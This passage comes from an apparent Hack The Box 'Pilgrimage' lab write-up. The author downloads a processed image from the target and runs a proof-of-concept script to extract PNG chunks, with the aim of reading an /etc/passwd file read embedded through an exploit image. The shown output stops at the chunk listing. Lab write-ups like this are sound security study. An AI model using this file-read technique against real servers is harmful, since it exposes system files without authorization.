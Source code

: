 ![Untitled](/Vulnhub-Files/img/Pilgrimage/Untitled%202.png)

After uploading I got this image link so lets download this image now from this link ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ wget http://pilgrimage.htb/shrunk/64fabc0bacede.png                                  
--2023-09-08 11:47:01--  http://pilgrimage.htb/shrunk/64fabc0bacede.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1082 (1.1K) [image/png]
Saving to: ‘64fabc0bacede.png’

64fabc0bacede.png               100%[=======================================================>]   1.06K  --.-KB/s    in 0s      

2023-09-08 11:47:01 (44.5 MB/s) - ‘64fabc0bacede.png’ saved [1082/1082]
```
{: .nolineno}
{: .nolineno}

Now lets read our `/etc/passwd` payload that we imbedded into the exploit image passwd.png ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ python3 poc.py parse -i 64fabc0bacede.png           
2023-09-08 14:10:52,191 - INFO - chunk IHDR found, value = b'\x00\x00\x00\x05\x00\x00\x00\x05\x08\x00\x00\x00\x00'
2023-09-08 14:10:52,191 - INFO - chunk gAMA found, value = b'\x00\x00\xb1\x8f'
2023-09-08 14:10:52,191 - INFO - chunk cHRM found, value = b'\x00\x00z&\x00\x00\x80\x84\x00\x00\xfa\x00\x00\x00\x80\xe8\x00\x00u0\x00\x00\xea`\x00\x00:\x98\x00\x00\x17p'
2023-09-08 14:10:52,191 - INFO - chunk bKGD found, value = b'\x00\xff'
2023-09-08 14:10:52,191 - INFO - chunk tIME found, value = b"\x07\xe7\t\x08\x06\x0f'"
```